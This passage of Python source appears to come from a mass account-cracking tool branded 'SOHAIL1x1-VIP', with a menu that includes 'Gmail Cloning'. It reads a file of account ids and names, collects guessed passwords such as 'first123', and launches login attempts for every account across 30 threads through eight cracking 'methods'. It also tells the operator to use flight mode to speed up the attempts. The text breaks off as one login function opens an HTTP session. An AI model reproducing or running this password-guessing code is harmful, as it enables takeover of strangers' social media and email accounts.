 	print(f" [3] Gmail Cloning")
	print(f" [0] Exit")
	me=input(f' Choice : ')
	if me in ["2", "02"]:
		bd()
	if me in ["3","03"]:
		gml()
	if me in ["1", "01","11","A","a"]:
		clear()
		file = input(f' Put file path\033[1;37m: ')
		try:
			fo = open(file,'r').read().splitlines()
		except FileNotFoundError:
			print(f' File location not found ')
			exit()
		print(f' [1] Method 1 \n [2] Method 2 \n [3] Method 3 \n [4] Method 4 \n [5] Method 5 \n [6] Method 6 \n [7] Method 7 \n [8] Method 8')
		mthd=input(f' Choose: ')
		plist=[]
		try:
			ps_limit = int(input(f' How many passwords do you want to add ? '))
		except:
			ps_limit =1
		print(f'\033[1;32m exp: first last,firtslast,first123')
		for i in range(ps_limit):
			plist.append(input(f' Put password {i+1}: '))
		print(f' Do you went show cp account? (y/n): ')
		cx=input(f' Choose: ')
		if cx in ['n','N','no','NO','2']:
			pcp.append(f'n')
		else:
			pcp.append(f'y')
		with tred(max_workers=30) as crack_submit:
			clear()
			total_ids = str(len(fo))
			print(f' Total account : \033[1;32m'+total_ids+f' \n \033[1;37mMethod > \033[1;37mM{mthd}')
			print(f"\033[1;37m Use flight mode for speed up\033[1;37m")
			linex()
			for user in fo:
				ids,names = user.split(f'|')
				passlist = plist
				if mthd in ['1','01']:
					crack_submit.submit(ffb,ids,names,passlist)
				elif mthd in ['2','02']:
					crack_submit.submit(api,ids,names,passlist)
				elif mthd in ['3','03']:
					crack_submit.submit(ffb1,ids,names,passlist)
				elif mthd in ['4','04']:
					crack_submit.submit(api1,ids,names,passlist)
				elif mthd in ['5','05']:
					crack_submit.submit(ffb3,ids,names,passlist)
				elif mthd in ['6','06']:
					crack_submit.submit(ffb4,ids,names,passlist)
				elif mthd in ['7','07']:
					crack_submit.submit(ffb7,ids,names,passlist)
				elif mthd in ['8','08']:
					crack_submit.submit(ffb8,ids,names,passlist)
				else:
					crack_submit.submit(api1,ids,names,passlist)
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1-VIP] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()